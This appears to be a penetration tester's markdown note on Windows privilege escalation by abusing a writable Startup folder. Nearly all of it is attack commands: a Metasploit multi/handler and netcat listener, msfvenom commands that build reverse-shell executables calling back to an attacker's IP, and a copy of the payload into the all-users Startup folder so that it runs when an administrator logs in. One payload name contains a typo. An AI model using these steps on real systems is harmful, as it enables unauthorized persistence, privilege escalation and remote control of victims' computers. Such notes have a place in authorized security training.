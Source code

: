 -- -
[[Dark Arts/Privesc/Windows/Enumeration/Startup Applications|Enum]]
#### Setup Listener
```bash
# metasploit
msfconsole
use multi/handler
set lhost=<attack ip>
set lport=<port num>
run

# reverse shell
nc -nvlp <port> 
```

#### Make payload
```bash
# meterpreter shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<atack ip> LPORT=<port> -f exe -o y.exe

# vanilla reverse
msfvenom -p windwows/x64/reverse_tcp LHOST=<attack ip> LPORT=<port> -f exe -o y.exe
```
[[Windows|File transfer]] payload to target
#### Exploit
```powershell
# assuming you found that full access to the startup apps folder, just place the malware in the right place
copy y.exe "C:\ProgramData\Microsoft\WIndows\Start Menu\Programs\Startup"

# then just wait for an admin to log in or the computer to restart or whatever for the malware to be automatically run. Should get a shell after that. 
```